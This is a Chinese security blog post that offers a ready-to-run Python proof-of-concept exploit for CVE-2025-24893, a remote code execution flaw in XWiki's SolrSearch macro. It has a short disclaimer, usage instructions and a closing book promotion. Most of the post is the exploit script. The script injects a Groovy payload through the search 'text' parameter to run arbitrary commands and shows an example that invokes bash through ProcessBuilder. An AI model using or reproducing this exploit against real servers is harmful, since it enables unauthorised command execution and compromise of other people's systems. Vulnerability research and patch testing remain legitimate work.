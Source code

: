 #  XWiki SolrSearchMacros 远程代码执行漏洞PoC（CVE-2025-24893）   
iSee857  Web安全工具库   2025-02-25 16:01  
  
===================================  
免责声明请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。个人微信：ivu123ivu  
0x01 工具介绍  
XWiki是一个开源的 wiki 平台，允许用户创建、编辑和管理内容，支持丰富的文档协作和知识管理功能。它类似于维基百科，但更注重企业级应用，提供强大的扩展性和自定义能力，支持结构化数据、脚本编写和插件集成。XWiki适用于团队协作、知识库建设以及复杂文档管理，适合需要高度定制化 wiki 解决方案的组织。  
0x02 安装与使用  
命令使用  
```
 python CVE-2025-24893.py [URL] [COMMAND]
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibturtTKoFbmuuOgVcsFt118U8YyZlibHrP1mhgqCw4WZ63SIfDfg7cVIztRpDviaOtnCPI6m6bbLDCQ/640?wx_fmt=png&from=appmsg "")  
```
import argparse
import requests
import sys
from urllib.parse import urljoin

VULN_PATH = "/xwiki/bin/get/Main/SolrSearch?media=rss&text="
PAYLOAD_TEMPLATE = "}}}{{async async=false}}{{groovy}}%s;println('EXPLOIT_SUCCESS'){{/groovy}}{{/async}}"

def banner():
    print("\033[36m" + """
    ****************************************************
    *                 CVE-2025-24893                   *
    *             XWiki RCE漏洞利用工具                 *
    *                 作者: iSee857                    *
    ****************************************************
    """ + "\033[0m")
def execute_exploit(target_url, command):

    try:
        full_url = urljoin(target_url.rstrip('/') + '/', VULN_PATH.lstrip('/')) 

        safe_cmd = command.replace('{', '{{').replace('}', '}}')  
        safe_cmd = safe_cmd.replace('\\', '\\\\')  
        safe_cmd = safe_cmd.replace("'", "\\'")   


        payload = PAYLOAD_TEMPLATE % safe_cmd
        params = {'media': 'rss', 'text': payload}
        headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
            'Accept': '*/*'
        }

        response = requests.get(
            full_url,
            params=params,
            headers=headers,
            allow_redirects=False,
            verify=False,
            timeout=20
        )

        if response.status_code == 200 and 'EXPLOIT_SUCCESS' in response.text:
            print("[+] 漏洞利用成功！响应片段：")
            print(response.text[:300].split('EXPLOIT_SUCCESS')[0] + "...[SUCCESS]")
            return True
        else:
            print(f"[-] 利用失败，状态码：{response.status_code}")
            return False

    except Exception as e:
        print(f"[-] 错误：{str(e)}")
        return False

if __name__ == "__main__":
    banner()
    parser = argparse.ArgumentParser(description="XWiki RCE漏洞利用工具 CVE-2025-24893")
    parser.add_argument("URL", help="目标URL (例: http://127.0.0.1:8080)")
    parser.add_argument("COMMAND", help="Groovy命令 (例: 'new ProcessBuilder(\"bash\",\"-c\",\"echo pwned > /tmp/pwned.txt\").waitFor()')")
    args = parser.parse_args()


    if '\\' in args.COMMAND:
        args.COMMAND = args.COMMAND.replace('\\', '/')

    success = execute_exploit(args.URL, args.COMMAND)
    sys.exit(0 if success else 1)
```  
  
  
  
  
**·****今 日 推 荐**  
**·**  
  
  
  
> 反黑命令与攻防从新手到高手：微课超值版》在剖析用户进行黑客防御中迫切需要用到或迫切想要用到的命令的同时，力求对其进行实操性的讲解，使读者对网络防御技术形成系统了解，能够更好地防范黑客的攻击。全书共13章，包括计算机知识快速入门、DOS窗口与DOS系统、常见DOS命令的应用、磁盘分区与数据安全、系统安全之备份与还原、SQL注入入侵与弱口令入侵、远程入侵Windows系统、系统进程与入侵隐藏技术、局域网入侵与防御技术、恶意软件与间谍软件的清理、后门入侵与痕迹清理技术、病毒和木马的入侵与防御，以及无线网络的入侵与防御。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibturtTKoFbmuuOgVcsFt118YBYI54jWpZ9jNpJuQrZ4hibyDKib4pmRGZo3EFPZcACT0v9YIWibP28OQ/640?wx_fmt=png&from=appmsg "")  
  
  
